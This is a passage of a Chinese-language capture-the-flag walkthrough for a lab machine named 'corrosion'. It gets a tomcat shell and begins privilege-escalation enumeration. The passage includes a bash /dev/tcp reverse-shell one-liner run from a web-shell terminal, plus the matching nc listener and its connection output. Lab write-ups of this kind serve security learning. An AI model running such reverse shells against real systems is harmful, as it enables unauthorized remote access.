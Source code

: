 5. 使用蚁🗡虚拟终端进行反弹`shell` ，同时`kali`开启监听
    
    ```python
    (tomcat:/bin/sh: ) $ bash -c 'bash -i >& /dev/tcp/192.168.56.10/1234 0>&1'
    ```
    
    ```python
    nc -lvp 1234                             
    listening on [any] 1234 ...
    192.168.56.6: inverse host lookup failed: Unknown host
    connect to [192.168.56.10] from (UNKNOWN) [192.168.56.6] 58882
    bash: cannot set terminal process group (1277): Inappropriate ioctl for device
    bash: no job control in this shell
    tomcat@corrosion:/var/spool/cron$ 
    ```
    
    获得shell！！！
    

## 提权 - tomcat用户

1. 查看权限
    
    ```python
    tomcat@corrosion:/var/spool/cron$ whoami
    tomcat
    tomcat@corrosion:/var/spool/cron$ id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
    tomcat@corrosion:/var/spool/cron$ uname -a
    Linux corrosion 5.11.0-34-generic #36~20.04.1-Ubuntu SMP Fri Aug 27 08:06:32 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    ```
    
2. 寻找敏感目录
    - 家目录下存在`jaye`文件夹和`randy`文件夹，其中`jaye`没有访问权限，只能看`randy`的文件夹
        - `note.txt`
            
            ```python
            tomcat@corrosion:/home/randy$ cat note.txt 
            Hey randy this is your system administrator, hope your having a great day! I just wanted to let you know
            that I changed your permissions for your home directory. You won't be able to remove or add files for now.
            
            I will change these permissions later on.
            
            See you next Monday randy!
            嘿 randy 我是你的系统管理员，希望你今天过得愉快！我只是想让你知道
            我更改了你的主目录的权限。你现在无法删除或添加文件。
            
            我稍后会更改这些权限。
            
            下周一见 randy！
            ```
            
        - `randombase64.py`
            